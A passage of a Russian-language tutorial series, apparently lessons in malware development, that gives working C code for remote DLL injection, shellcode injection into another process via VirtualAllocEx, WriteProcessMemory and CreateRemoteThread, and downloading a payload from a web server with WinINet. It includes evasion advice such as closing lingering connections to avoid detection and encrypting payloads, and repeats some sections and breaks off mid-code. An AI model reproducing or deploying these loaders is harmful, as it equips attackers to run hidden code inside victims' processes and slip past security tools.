pLoadLibraryW передается в качестве начального адреса потока, затем pAddress, содержащий имя DLL, передается в качестве аргумента вызова LoadLibraryW. Это делается путем передачи pAddress в качестве параметра lpParameter функции CreateRemoteThread.
Параметры CreateRemoteThread такие же, как у функции CreateThread, описанной ранее, за исключением дополнительного параметра HANDLE hProcess, который представляет собой дескриптор процесса, в котором будет создан поток.
Инъекция DLL - Поный код функции InjectDllToRemoteProcess
Отладка (В качестве домашнего задания напишите проект сами и проделайте сами описанное ниже)
В этом разделе реализация отлаживается с использованием отладчика xdbg, чтобы лучше понять, что происходит "под капотом".
Сначала запустите RemoteDllInjection.exe и передайте два аргумента: целевой процесс и полный путь к DLL, который нужно внедрить в целевой процесс.
В этой демонстрации внедряется notepad.exe.
Процесс перечисления успешно выполнен. Проверьте, что PID Notepad действительно равен 20932, используя Process Hacker.
Далее, к целевому процессу, Блокноту, присоединяется xdbg, и проверяется выделенный адрес. Изображение ниже показывает, что буфер был успешно выделен.

После выделения памяти имя DLL записывается в буфер.
Наконец, в удаленном процессе создается новый поток, который выполняет DLL.

Проверьте, что DLL был успешно внедрен, используя вкладку "модули" в Process Hacker.
Перейдите на вкладку "потоки" в Process Hacker и обратите внимание на поток, который выполняет LoadLibraryW в качестве своей начальной функции.
Перечисление процессов
Прежде чем можно будет инъецировать DLL в процесс, необходимо выбрать целевой процесс. Поэтому первым шагом в инъекции в удаленный процесс обычно является перечисление запущенных процессов на компьютере для определения потенциальных целевых процессов, в которые можно выполнить инъекцию. Для этого требуется идентификатор процесса (PID), чтобы открыть дескриптор целевого процесса и выполнить необходимую работу в нем.
В статье мы создадим функцию, которая выполняет перечисление процессов для определения всех запущенных процессов.
Функция GetRemoteProcessHandle будет использоваться для перечисления всех запущенных процессов в системе, открытия дескриптора целевого процесса и возврата как PID, так и дескриптора процесса.
CreateToolhelp32Snapshot
Кодовый фрагмент начинается с использования функции CreateToolhelp32Snapshot с флагом TH32CS_SNAPPROCESS в качестве первого параметра, который создает снимок всех процессов, работающих в системе в момент выполнения функции.
C:
// Создает снимок всех в данный момент выполняющихся процессов
hSnapShot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, NULL);Структура PROCESSENTRY32
После создания снимка функция Process32First используется для получения информации о первом процессе в снимке. Для всех остальных процессов в снимке используется функция Process32Next.
Документация Microsoft утверждает, что как Process32First, так и Process32Next требуют передачи структуры PROCESSENTRY32 в качестве второго параметра. После вызова функций эти функции заполняют структуру информацией о процессе.
Структура PROCESSENTRY32 показана ниже с комментариями рядом к полезным членам структуры, которые будут заполнены этими функциями.
C:
typedef struct tagPROCESSENTRY32 {
DWORD dwSize;
DWORD cntUsage;
DWORD th32ProcessID; // Идентификатор процесса
ULONG_PTR th32DefaultHeapID;
DWORD th32ModuleID;
DWORD cntThreads;
DWORD th32ParentProcessID; // Идентификатор родительского процесса
LONG pcPriClassBase;
DWORD dwFlags;
CHAR szExeFile[MAX_PATH]; // Имя исполняемого файла процесса
} PROCESSENTRY32;После вызова Process32First или Process32Next и заполнения структуры, данные можно извлечь из структуры, используя оператор точки.
Например, чтобы извлечь PID, используйте PROCESSENTRY32.th32ProcessID.
Process32First и Process32Next
Как уже упоминалось, Process32First используется для получения информации о первом процессе, а Process32Next для всех остальных процессов в снимке с использованием цикла do-while. Имя процесса, которое ищется (szProcessName), сравнивается с именем процесса в текущей итерации цикла, которое извлекается из заполненной структуры Proc.szExeFile. Если есть совпадение, то сохраняется идентификатор процесса (PID), и открывается дескриптор для этого процесса.
C:
// Получение информации о первом процессе в снимке.
if (!Process32First(hSnapShot, &Proc)) {
printf("[!] Process32First Failed With Error : %d \n", GetLastError());
goto _EndOfFunction;
}
do {
// Используйте оператор точки для извлечения имени процесса из заполненной структуры
// Если имя процесса совпадает с тем, что мы ищем
if (wcscmp(Proc.szExeFile, szProcessName) == 0) {
// Используйте оператор точки для извлечения идентификатора процесса из заполненной структуры
// Сохраните PID
*dwProcessId = Proc.th32ProcessID;
// Откройте дескриптор процесса
*hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, Proc.th32ProcessID);
if (*hProcess == NULL)
printf("[!] OpenProcess Failed With Error : %d \n", GetLastError());
break; // Выход из цикла
}
// Получение информации о следующем процессе в снимке.
// Пока в снимке еще остается процесс, продолжайте цикл
} while (Process32Next(hSnapShot, &Proc));Пример кода получения ID и хендла процесса по имени:
C:
BOOL GetRemoteProcessHandle(IN LPWSTR szProcessName, OUT DWORD* dwProcessId, OUT HANDLE* hProcess) {
// Согласно документации:
// Перед вызовом функции Process32First установите этот член в sizeof(PROCESSENTRY32).
// Если dwSize не инициализирован, Process32First завершится неудачей.
PROCESSENTRY32 Proc = {
.dwSize = sizeof(PROCESSENTRY32)
};
HANDLE hSnapShot = NULL;
// Создает снимок всех в данный момент выполняющихся процессов
hSnapShot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, NULL);
if (hSnapShot == INVALID_HANDLE_VALUE){
printf("[!] CreateToolhelp32Snapshot Failed With Error : %d \n", GetLastError());
goto _EndOfFunction;
}
// Получение информации о первом процессе в снимке.
if (!Process32First(hSnapShot, &Proc)) {
printf("[!] Process32First Failed With Error : %d \n", GetLastError());
goto _EndOfFunction;
}
do {
// Используйте оператор точки для извлечения имени процесса из заполненной структуры
// Если имя процесса совпадает с тем, что мы ищем
if (wcscmp(Proc.szExeFile, szProcessName) == 0) {
// Используйте оператор точки для извлечения идентификатора процесса из заполненной структуры
// Сохраните PID
*dwProcessId = Proc.th32ProcessID;
// Откройте дескриптор процесса
*hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, Proc.th32ProcessID);
if (*hProcess == NULL)
printf("[!] OpenProcess Failed With Error : %d \n", GetLastError());
break; // Выход из цикла
}
// Получение информации о следующем процессе в снимке.
// Пока в снимке еще остается процесс, продолжайте цикл
} while (Process32Next(hSnapShot, &Proc));
// Очистка ресурсов
_EndOfFunction:
if (hSnapShot != NULL)
CloseHandle(hSnapShot);
if (*dwProcessId == NULL || *hProcess == NULL)
return FALSE;
return TRUE;
}Чувствительность к регистру в имени процесса
Приведенный выше кодовый фрагмент содержит один недочет, который был упущен и который может привести к неверным результатам. Функция wcscmp использовалась для сравнения имен процессов, но при этом не учитывалась чувствительность к регистру, что означает, что Process1.exe и process1.exe будут считаться двумя разными процессами.
В приведенном ниже кодовом фрагменте этот недостаток устранен путем преобразования значения в члене Proc.szExeFile в строку в нижнем регистре, а затем сравнения его со szProcessName.
Таким образом, szProcessName всегда должен передаваться в виде строки в нижнем регистре.
C:
BOOL GetRemoteProcessHandle(LPWSTR szProcessName, DWORD* dwProcessId, HANDLE* hProcess) {
// Согласно документации:
// Перед вызовом функции Process32First установите этот член в sizeof(PROCESSENTRY32).
// Если dwSize не инициализирован, Process32First завершится неудачей.
PROCESSENTRY32 Proc = {
.dwSize = sizeof(PROCESSENTRY32)
};
HANDLE hSnapShot = NULL;
// Создает снимок всех в данный момент выполняющихся процессов
hSnapShot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, NULL);
if (hSnapShot == INVALID_HANDLE_VALUE){
printf("[!] CreateToolhelp32Snapshot Failed With Error : %d \n", GetLastError());
goto _EndOfFunction;
}
// Получение информации о первом процессе в снимке.
if (!Process32First(hSnapShot, &Proc)) {
printf("[!] Process32First Failed With Error : %d \n", GetLastError());
goto _EndOfFunction;
}
do {
WCHAR LowerName[MAX_PATH * 2];
if (Proc.szExeFile) {
DWORD dwSize = lstrlenW(Proc.szExeFile);
DWORD i = 0;
RtlSecureZeroMemory(LowerName, MAX_PATH * 2);
// Преобразование каждого символа в Proc.szExeFile в символ нижнего регистра
// и сохранение его в LowerName
if (dwSize < MAX_PATH * 2) {
for (; i < dwSize; i++)
LowerName[i] = (WCHAR)tolower(Proc.szExeFile[i]);
LowerName[i++] = '\0';
}
}
// Если преобразованное в нижний регистр имя процесса совпадает с искомым процессом
if (wcscmp(LowerName, szProcessName) == 0) {
// Сохраните PID
*dwProcessId = Proc.th32ProcessID;
// Откройте дескриптор процесса
*hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, Proc.th32ProcessID);
if (*hProcess == NULL)
printf("[!] OpenProcess Failed With Error : %d \n", GetLastError());
break;
}
// Получение информации о следующем процессе в снимке.
// Пока в снимке еще остается процесс, продолжайте цикл
} while (Process32Next(hSnapShot, &Proc));
// Очистка ресурсов
_EndOfFunction:
if (hSnapShot != NULL)
CloseHandle(hSnapShot);
if (*dwProcessId == NULL || *hProcess == NULL)
return FALSE;
return TRUE;
}Инъекция DLL
Дескриптор процесса целевого процесса был успешно получен. Следующим шагом будет инъекция DLL в целевой процесс, для которого потребуется использование нескольких ранее использованных Windows API, а также некоторых новых.
VirtualAllocEx - Аналогично VirtualAlloc, за исключением того, что он позволяет выделять память в удаленном процессе.
WriteProcessMemory - Записывает данные в удаленный процесс. В этом случае он будет использоваться для записи пути к DLL в целевой процесс.
CreateRemoteThread - Создает поток в удаленном процессе.
Обзор кода
В этом разделе будет рассмотрен код инъекции DLL (показан ниже). Функция InjectDllToRemoteProcess принимает два аргумента:
Дескриптор процесса - это HANDLE к целевому процессу, в который будет инъецирован DLL.
Имя DLL - полный путь к DLL, который будет инъецирован в целевой процесс.
Определение адреса LoadLibraryW
LoadLibraryW используется для загрузки DLL в процесс, который его вызывает. Поскольку целью является загрузка DLL в удаленный процесс, а не в локальный процесс, он не может быть вызван напрямую.
Вместо этого необходимо получить адрес LoadLibraryW и передать его созданному удаленному потоку в процессе, передавая имя DLL в качестве его аргумента.
Это работает, потому что адрес WinAPI LoadLibraryW будет таким же в удаленном процессе, как и в локальном процессе. Чтобы определить адрес WinAPI, используются GetProcAddress и GetModuleHandle.
C:
// LoadLibrary экспортируется kernel32.dll
// Поэтому получен дескриптор kernel32.dll, а затем адрес LoadLibraryW
pLoadLibraryW = GetProcAddress(GetModuleHandle(L"kernel32.dll"), "LoadLibraryW");Адрес, хранящийся в pLoadLibraryW, будет использоваться в качестве точки входа потока при создании нового потока в удаленном процессе.
Выделение памяти
Следующим шагом является выделение памяти в удаленном процессе, которое может вместить имя DLL, DllName. Для выделения памяти в удаленном процессе используется функция VirtualAllocEx.
C:
// Выделяет память размером dwSizeToWrite (это размер имени dll) внутри удаленного процесса, hProcess.
// Защита памяти - Чтение-Запись
pAddress = VirtualAllocEx(hProcess, NULL, dwSizeToWrite, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);Запись в выделенную память
После успешного выделения памяти в удаленном процессе можно использовать WriteProcessMemory для записи в выделенный буфер. Имя DLL записывается в ранее выделенный буфер памяти.
Функция WinAPI WriteProcessMemory выглядит следующим образом на основе ее документации:
C:
BOOL WriteProcessMemory(
[in] HANDLE hProcess, // Дескриптор процесса, память которого будет записана
[in] LPVOID lpBaseAddress, // Базовый адрес в указанном процессе, в который будут записаны данные
[in] LPCVOID lpBuffer, // Указатель на буфер, содержащий данные для записи в 'lpBaseAddress'
[in] SIZE_T nSize, // Количество байт, которые будут записаны в указанный процесс.
[out] SIZE_T *lpNumberOfBytesWritten // Указатель на переменную 'SIZE_T', которая получает количество фактически записанных байтов
);На основе показанных выше параметров WriteProcessMemory, его можно вызвать следующим образом, записывая буфер (DllName) в выделенный адрес (pAddress), возвращенный ранее вызванной функцией VirtualAllocEx.
C:
// Записанные данные - это имя DLL, 'DllName', размером 'dwSizeToWrite'
SIZE_T lpNumberOfBytesWritten = NULL;
WriteProcessMemory(hProcess, pAddress, DllName, dwSizeToWrite, &lpNumberOfBytesWritten)Выполнение через новый поток
После успешной записи пути к DLL в выделенный буфер будет использоваться CreateRemoteThread для создания нового потока в удаленном процессе.
Здесь становится необходимым адрес LoadLibraryW.
pLoadLibraryW передается в качестве начального адреса потока, затем pAddress, содержащий имя DLL, передается в качестве аргумента вызова LoadLibraryW. Это делается путем передачи pAddress в качестве параметра lpParameter функции CreateRemoteThread.
Параметры CreateRemoteThread такие же, как у функции CreateThread, описанной ранее, за исключением дополнительного параметра HANDLE hProcess, который представляет собой дескриптор процесса, в котором будет создан поток.
C:
// Точка входа потока будет 'pLoadLibraryW', который является адресом LoadLibraryW
// Имя DLL, pAddress, передается в качестве аргумента для LoadLibrary
HANDLE hThread = CreateRemoteThread(hProcess, NULL, NULL, pLoadLibraryW, pAddress, NULL, NULL);Инъекция DLL - Поный код функции InjectDllToRemoteProcess
C:
BOOL InjectDllToRemoteProcess(IN HANDLE hProcess, IN LPWSTR DllName) {
BOOL bSTATE = TRUE;
LPVOID pLoadLibraryW = NULL;
LPVOID pAddress = NULL;
// получение размера DllName *в байтах* (для записи в память процесса)
DWORD dwSizeToWrite = (wcslen(DllName) + 1) * sizeof(WCHAR);
// Получение адреса LoadLibraryW
pLoadLibraryW = GetProcAddress(GetModuleHandle(L"kernel32.dll"), "LoadLibraryW");
if (pLoadLibraryW == NULL) {
printf("[!] GetProcAddress Failed With Error : %d \n", GetLastError());
return FALSE;
}
// Выделение памяти в удаленном процессе
pAddress = VirtualAllocEx(hProcess, NULL, dwSizeToWrite, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
if (pAddress == NULL) {
printf("[!] VirtualAllocEx Failed With Error : %d \n", GetLastError());
return FALSE;
}
// Запись DllName в выделенный регион памяти
SIZE_T lpNumberOfBytesWritten = NULL;
if (!WriteProcessMemory(hProcess, pAddress, DllName, dwSizeToWrite, &lpNumberOfBytesWritten)) {
printf("[!] WriteProcessMemory Failed With Error : %d \n", GetLastError());
VirtualFreeEx(hProcess, pAddress, 0, MEM_RELEASE);
return FALSE;
}
// Создание нового потока для загрузки Dll
HANDLE hThread = CreateRemoteThread(hProcess, NULL, NULL, pLoadLibraryW, pAddress, NULL, NULL);
if (hThread == NULL) {
printf("[!] CreateRemoteThread Failed With Error : %d \n", GetLastError());
VirtualFreeEx(hProcess, pAddress, 0, MEM_RELEASE);
return FALSE;
}
// Ожидание завершения потока
WaitForSingleObject(hThread, INFINITE);
CloseHandle(hThread);
// Освобождение выделенной памяти
VirtualFreeEx(hProcess, pAddress, 0, MEM_RELEASE);
return bSTATE;
}Отладка (В качестве домашнего задания напишите проект сами и проделайте сами описанное ниже)
В этом разделе реализация отлаживается с использованием отладчика xdbg, чтобы лучше понять, что происходит "под капотом".
Сначала запустите RemoteDllInjection.exe и передайте два аргумента: целевой процесс и полный путь к DLL, который нужно внедрить в целевой процесс.
В этой демонстрации внедряется notepad.exe.
Процесс перечисления успешно выполнен. Проверьте, что PID Notepad действительно равен 20932, используя Process Hacker.
Далее, к целевому процессу, Блокноту, присоединяется xdbg, и проверяется выделенный адрес. Изображение ниже показывает, что буфер был успешно выделен.
После выделения памяти имя DLL записывается в буфер.
Наконец, в удаленном процессе создается новый поток, который выполняет DLL.
Проверьте, что DLL был успешно внедрен, используя вкладку "модули" в Process Hacker.
Перейдите на вкладку "потоки" в Process Hacker и обратите внимание на поток, который выполняет LoadLibraryW в качестве своей начальной функции.
Инъекция шелл-кода в процесс
Эта статья похожа на предыдущую DLL Injection с небольшими изменениями.
Инъекция shellcode в процесс будет использовать практически те же самые API Windows.
VirtualAllocEx - выделение памяти.
WriteProcessMemory - запись полезной нагрузки в удаленный процесс.
VirtualProtectEx - изменение защиты памяти.
CreateRemoteThread - выполнение полезной нагрузки через новый поток.
Перечисление процессов
Как и в предыдущей статье, инъекция процесса начинается с перечисления процессов.
Фрагмент кода для перечисления процессов, показанный ниже, уже был объяснен в предыдущей статье.
C:
BOOL GetRemoteProcessHandle(LPWSTR szProcessName, DWORD* dwProcessId, HANDLE* hProcess) {
// Согласно документации:
// Перед вызовом функции Process32First установите член dwSize в sizeof(PROCESSENTRY32).
// Если dwSize не инициализирован, Process32First завершится с ошибкой.
PROCESSENTRY32 Proc = {
.dwSize = sizeof(PROCESSENTRY32)
};
HANDLE hSnapShot = NULL;
// Создает снимок текущих выполняющихся процессов
hSnapShot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, NULL);
if (hSnapShot == INVALID_HANDLE_VALUE){
printf("[!] CreateToolhelp32Snapshot завершилось с ошибкой: %d \n", GetLastError());
goto _EndOfFunction;
}
// Получает информацию о первом обнаруженном процессе в снимке.
if (!Process32First(hSnapShot, &Proc)) {
printf("[!] Process32First завершилось с ошибкой: %d \n", GetLastError());
goto _EndOfFunction;
}
do {
WCHAR LowerName[MAX_PATH * 2];
if (Proc.szExeFile) {
DWORD dwSize = lstrlenW(Proc.szExeFile);
DWORD i = 0;
RtlSecureZeroMemory(LowerName, MAX_PATH * 2);
// Преобразование каждого символа в Proc.szExeFile в символ в нижнем регистре
// и сохранение его в LowerName
if (dwSize < MAX_PATH * 2) {
for (; i < dwSize; i++)
LowerName[i] = (WCHAR)tolower(Proc.szExeFile[i]);
LowerName[i++] = '\0';
}
}
// Если имя процесса в нижнем регистре совпадает с искомым процессом
if (wcscmp(LowerName, szProcessName) == 0) {
// Сохранить PID
*dwProcessId = Proc.th32ProcessID;
// Открыть дескриптор процесса
*hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, Proc.th32ProcessID);
if (*hProcess == NULL)
printf("[!] OpenProcess завершилось с ошибкой: %d \n", GetLastError());
break;
}
// Получает информацию о следующем процессе, зарегистрированном в снимке.
// Пока в снимке остается процесс, продолжаем цикл
} while (Process32Next(hSnapShot, &Proc));
// Очистка
_EndOfFunction:
if (hSnapShot != NULL)
CloseHandle(hSnapShot);
if (*dwProcessId == NULL || *hProcess == NULL)
return FALSE;
return TRUE;
}Инъекция Shellcode
Для выполнения инъекции shellcode будет использована функция InjectShellcodeToRemoteProcess.
Функция принимает 3 параметра:
hProcess - Дескриптор открытого удаленного процесса.
pShellcode - Базовый адрес и размер расшифрованного shellcode. Shellcode должен быть в виде текста перед инъекцией, потому что его нельзя редактировать, когда он уже находится в удаленном процессе.
sSizeOfShellcode - Размер shellcode.
Функция InjectShellcodeToRemoteProcess - Фрагмент кода
C:
BOOL InjectShellcodeToRemoteProcess(HANDLE hProcess, PBYTE pShellcode, SIZE_T sSizeOfShellcode) {
PVOID pShellcodeAddress = NULL;
SIZE_T sNumberOfBytesWritten = NULL;
DWORD dwOldProtection = NULL;
// Выделяем память в удаленном процессе размером sSizeOfShellcode
pShellcodeAddress = VirtualAllocEx(hProcess, NULL, sSizeOfShellcode, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
if (pShellcodeAddress == NULL) {
printf("[!] VirtualAllocEx завершилось с ошибкой: %d \n", GetLastError());
return FALSE;
}
printf("[i] Выделена память по адресу: 0x%p \n", pShellcodeAddress);
printf("[#] Нажмите <Enter> для записи полезной нагрузки... ");
getchar();
// Записываем shellcode в выделенную память
if (!WriteProcessMemory(hProcess, pShellcodeAddress, pShellcode, sSizeOfShellcode, &sNumberOfBytesWritten) || sNumberOfBytesWritten != sSizeOfShellcode) {
printf("[!] WriteProcessMemory завершилось с ошибкой: %d \n", GetLastError());
return FALSE;
}
printf("[i] Успешно записано %d байт\n", sNumberOfBytesWritten);
memset(pShellcode, '\0', sSizeOfShellcode);
// Делаем память выполнимой
if (!VirtualProtectEx(hProcess, pShellcodeAddress, sSizeOfShellcode, PAGE_EXECUTE_READWRITE, &dwOldProtection)) {
printf("[!] VirtualProtectEx завершилось с ошибкой: %d \n", GetLastError());
return FALSE;
}
printf("[#] Нажмите <Enter> для выполнения... ");
getchar();
printf("[i] Выполнение полезной нагрузки... ");
// Запускаем shell
if (CreateRemoteThread(hProcess, NULL, NULL, pShellcodeAddress, NULL, NULL, NULL) == NULL) {
printf("[!] CreateRemoteThread Failed With Error : %d \n", GetLastError());
return FALSE;
}
printf("[+] DONE !\n");
return TRUE;
}Освобождение памяти в удаленном процессе
VirtualFreeEx - это WinAPI, который используется для освобождения ранее выделенной памяти в удаленном процессе. Эту функцию следует вызывать только после того, как полезная нагрузка полностью выполнена, иначе это может привести к освобождению содержимого полезной нагрузки и сбою процесса.
C:
BOOL VirtualFreeEx(
[in] HANDLE hProcess,
[in] LPVOID lpAddress,
[in] SIZE_T dwSize,
[in] DWORD dwFreeType
);VirtualFreeEx принимает такие же параметры, как и API VirtualFree, но с единственным отличием: VirtualFreeEx принимает дополнительный параметр (hProcess), который указывает целевой процесс, где находится область памяти.
Отладка
Вообще отладка похожа как в этой статье:Уроки - Разработка малвари-12. Иньекция в процесс
В качестве домашнего задания, предлагаю написать проект инъекции в произвольный процесс и самостоятельно провести отладку по алгоритму ниже.)
Для примера, инъекция shellcode выполняется в процесс Notepad. Начните с открытия Notepad и присоедините к нему отладчик x64 xdbg.
- Запуск Notepad и xdbg. Запустите Notepad. Откройте xdbg и выберите "File" > "Attach" или используйте горячую клавишу (обычно F2). В списке процессов найдите Notepad и присоедините к нему отладчик.
- Подготовка к инъекции. Перед тем как начать инъекцию shellcode, убедитесь, что отладчик находится в режиме ожидания (приостановлен).
- Просмотр памяти Откройте окно "Memory" в xdbg, чтобы просмотреть области памяти, куда был инъектирован shellcode. Это позволит вам лучше понять, как он работает и что делает в памяти целевого процесса.
Размещаем Payload удаленно на сервере
На протяжении всех статей до сих пор payload был постоянно хранящимся непосредственно внутри бинарного файла.
Это быстрый и часто используемый метод для извлечения payload. К сожалению, в некоторых случаях, когда существуют ограничения по размеру payload, сохранение payload внутри кода не является осуществимым подходом. Альтернативный подход заключается в размещении payload на веб-сервере и его извлечении во время выполнения.
Настройка Веб-сервера
Эта статья требует веб-сервера для размещения файла payload. Самый простой способ - использовать HTTP-сервер Python с помощью следующей команды:
Обратите внимание, что файл payload должен быть размещен в той же директории, где выполняется эта команда.
Чтобы проверить работу веб-сервера, перейдите по адресу http://127.0.0.1:8000 с использованием браузера.
Плюсы и минусы данного метода
Использование веб-сервера для хранения payload предоставляет ряд преимуществ. Во-первых, это позволяет легко обновлять и менять payload без необходимости изменения исходного кода программы.
Во-вторых, это может упростить обход некоторых систем безопасности, поскольку payload не встроен напрямую в бинарный файл.
Тем не менее, такой подход также имеет свои недостатки.
Веб-сервер становится критической точкой, и если он становится недоступным или блокируется, payload не будет загружен. Также возрастает риск обнаружения, если сетевая активность подозрительна или необычна для данной программы.
Извлечение Payload
Для извлечения payload с веб-сервера будут использованы следующие API для Windows:
InternetOpenW - Открывает сеанс интернета, который является предварительным условием для использования других интернет-функций Windows.
InternetOpenUrlW - Открывает дескриптор для указанного ресурса, который является URL payload.
InternetReadFile - Считывает данные из дескриптора веб-ресурса. Это дескриптор, открытый с помощью InternetOpenUrlW.
InternetCloseHandle - Закрывает дескриптор.
InternetSetOptionW - Устанавливает опцию Интернета.
Открытие сеанса интернета
Первым шагом является открытие сеанса интернета с использованием функции InternetOpenW, которая инициализирует использование функций WinINet в приложении.
Все параметры, передаваемые в WinAPI, равны NULL, так как они в основном предназначены для вопросов, связанных с прокси.
Следует отметить, что установка второго параметра равным NULL эквивалентна использованию INTERNET_OPEN_TYPE_PRECONFIG, что указывает на использование текущей конфигурации системы для определения настроек прокси для подключения к Интернету.
Вызов функции показан в следующем отрывке кода.
Открытие дескриптора для Payload
Переходим к следующему используемому WinAPI - InternetOpenUrlW, где устанавливается соединение с URL payload.
Вызов функции показан в следующем отрывке кода.
Пятый параметр функции использует INTERNET_FLAG_HYPERLINK | INTERNET_FLAG_IGNORE_CERT_DATE_INVALID для повышения успешности запроса HTTP в случае ошибки на стороне сервера.
Возможно использовать дополнительные флаги, такие как INTERNET_FLAG_IGNORE_CERT_CN_INVALID, но это остается на усмотрение разработчика.
Флаги хорошо объяснены в документации Microsoft.
Чтение данных
Далее используется WinAPI InternetReadFile, который считывает payload.
Перед вызовом функции необходимо выделить буфер для хранения payload. Для этого используется LocalAlloc для выделения буфера той же размерности, что и payload, 272 байта.
После выделения буфера можно использовать InternetReadFile для чтения payload. Функция требует указания количества байт для чтения, которое в данном случае равно 272.
Закрытие дескриптора интернета
Для закрытия дескриптора интернета используется InternetCloseHandle.
Это следует вызвать после успешного получения payload.
Закрытие соединений HTTP/S
Важно знать, что WinAPI InternetCloseHandle не закрывает соединение HTTP/S. WinInet пытается повторно использовать соединения, и, следовательно, несмотря на закрытие дескриптора, соединение остается активным. Закрытие соединения важно для снижения возможности обнаружения. Например, создан бинарный файл, который извлекает payload с GitHub.
На изображении ниже показано, что бинарный файл все еще подключен к GitHub, несмотря на то, что выполнение бинарного файла завершено.
К счастью, решение простое. Всё, что требуется — это указать WinInet закрыть все соединения с использованием API InternetSetOptionW.
Вызов InternetSetOptionW с флагом INTERNET_OPTION_SETTINGS_CHANGED заставит систему обновить кэшированную версию её интернет-настроек, что в конечном итоге приведет к закрытию сохраненных WinInet соединений.
Извлечение Payload - Фрагмент кода
Функция GetPayloadFromUrl использует вышеупомянутые шаги для извлечения payload с удаленного сервера и сохраняет его в буфере.
Динамическое выделение размера Payload
Вышеуказанная реализация работает, когда размер payload известен. Если размер неизвестен или больше количества байт, указанного в InternetReadFile, может возникнуть переполнение кучи, что приведет к аварийному завершению работы программы.
Один из способов решения этой проблемы заключается в том, чтобы поместить InternetReadFile в цикл while и продолжать читать постоянное количество байт, которое, в данном примере, равно 1024 байта.
Байты сохраняются непосредственно во временном буфере, который имеет тот же размер, 1024 байта. Временный буфер добавляется к общему буферу, который будет непрерывно перераспределяться, чтобы вмещать каждый новый фрагмент размером 1024 байта, считанный с сервера.
Как только InternetReadFile прочитает значение, которое меньше 1024, это будет индикатором достижения конца файла, и цикл завершится.
Финальный фрагмент кода для размещения Payload
Теперь функция GetPayloadFromUrl принимает 3 параметра:
Примечание к реализации
В этой статье payload извлекается из интернета в виде сырых двоичных данных, без шифрования или обфускации.
Хотя такой подход может обойти базовые меры безопасности, которые анализируют двоичный код на наличие признаков вредоносной деятельности, но его могут пометить сетевые сканирующие утилиты.
Таким образом, если payload не зашифрован, захваченные пакеты во время передачи могут содержать узнаваемые фрагменты payload.
Это может раскрыть сигнатуру payload, что приведет к тому, что процесс внедрения будет помечен.
В реальных условиях всегда рекомендуется шифровать или обфусцировать payload, даже если он извлекается во время выполнения.
Запуск финального бинарного файла
Бинарный файл успешно извлекает payload.
Соединения закрываются после завершения выполнения.

Это быстрый и часто используемый метод для извлечения payload. К сожалению, в некоторых случаях, когда существуют ограничения по размеру payload, сохранение payload внутри кода не является осуществимым подходом. Альтернативный подход заключается в размещении payload на веб-сервере и его извлечении во время выполнения.
Настройка Веб-сервера
Эта статья требует веб-сервера для размещения файла payload. Самый простой способ - использовать HTTP-сервер Python с помощью следующей команды:
Код:
python -m http.server 8000Обратите внимание, что файл payload должен быть размещен в той же директории, где выполняется эта команда.
Чтобы проверить работу веб-сервера, перейдите по адресу http://127.0.0.1:8000 с использованием браузера.
Плюсы и минусы данного метода
Использование веб-сервера для хранения payload предоставляет ряд преимуществ. Во-первых, это позволяет легко обновлять и менять payload без необходимости изменения исходного кода программы.
Во-вторых, это может упростить обход некоторых систем безопасности, поскольку payload не встроен напрямую в бинарный файл.
Тем не менее, такой подход также имеет свои недостатки.
Веб-сервер становится критической точкой, и если он становится недоступным или блокируется, payload не будет загружен. Также возрастает риск обнаружения, если сетевая активность подозрительна или необычна для данной программы.
Извлечение Payload
Для извлечения payload с веб-сервера будут использованы следующие API для Windows:
InternetOpenW - Открывает сеанс интернета, который является предварительным условием для использования других интернет-функций Windows.
InternetOpenUrlW - Открывает дескриптор для указанного ресурса, который является URL payload.
InternetReadFile - Считывает данные из дескриптора веб-ресурса. Это дескриптор, открытый с помощью InternetOpenUrlW.
InternetCloseHandle - Закрывает дескриптор.
InternetSetOptionW - Устанавливает опцию Интернета.
Открытие сеанса интернета
Первым шагом является открытие сеанса интернета с использованием функции InternetOpenW, которая инициализирует использование функций WinINet в приложении.
Все параметры, передаваемые в WinAPI, равны NULL, так как они в основном предназначены для вопросов, связанных с прокси.
Следует отметить, что установка второго параметра равным NULL эквивалентна использованию INTERNET_OPEN_TYPE_PRECONFIG, что указывает на использование текущей конфигурации системы для определения настроек прокси для подключения к Интернету.
C:
HINTERNET InternetOpenW(
[in] LPCWSTR lpszAgent, // NULL
[in] DWORD dwAccessType, // NULL или INTERNET_OPEN_TYPE_PRECONFIG
[in] LPCWSTR lpszProxy, // NULL
[in] LPCWSTR lpszProxyBypass, // NULL
[in] DWORD dwFlags // NULL
);Вызов функции показан в следующем отрывке кода.
C:
// Открытие сеанса интернета
hInternet = InternetOpenW(NULL, NULL, NULL, NULL, NULL);Открытие дескриптора для Payload
Переходим к следующему используемому WinAPI - InternetOpenUrlW, где устанавливается соединение с URL payload.
C:
HINTERNET InternetOpenUrlW(
[in] HINTERNET hInternet, // Дескриптор, открытый с помощью InternetOpenW
[in] LPCWSTR lpszUrl, // URL payload
[in] LPCWSTR lpszHeaders, // NULL
[in] DWORD dwHeadersLength, // NULL
[in] DWORD dwFlags, // INTERNET_FLAG_HYPERLINK | INTERNET_FLAG_IGNORE_CERT_DATE_INVALID
[in] DWORD_PTR dwContext // NULL
);Вызов функции показан в следующем отрывке кода.
C:
hInternetFile = InternetOpenUrlW(hInternet, L"http://127.0.0.1:8000/calc.bin", NULL, NULL, INTERNET_FLAG_HYPERLINK | INTERNET_FLAG_IGNORE_CERT_DATE_INVALID, NULL);Пятый параметр функции использует INTERNET_FLAG_HYPERLINK | INTERNET_FLAG_IGNORE_CERT_DATE_INVALID для повышения успешности запроса HTTP в случае ошибки на стороне сервера.
Возможно использовать дополнительные флаги, такие как INTERNET_FLAG_IGNORE_CERT_CN_INVALID, но это остается на усмотрение разработчика.
Флаги хорошо объяснены в документации Microsoft.
Чтение данных
Далее используется WinAPI InternetReadFile, который считывает payload.
C:
BOOL InternetReadFile(
[in] HINTERNET hFile, // Дескриптор, открытый с помощью InternetOpenUrlW
[out] LPVOID lpBuffer, // Буфер для хранения payload
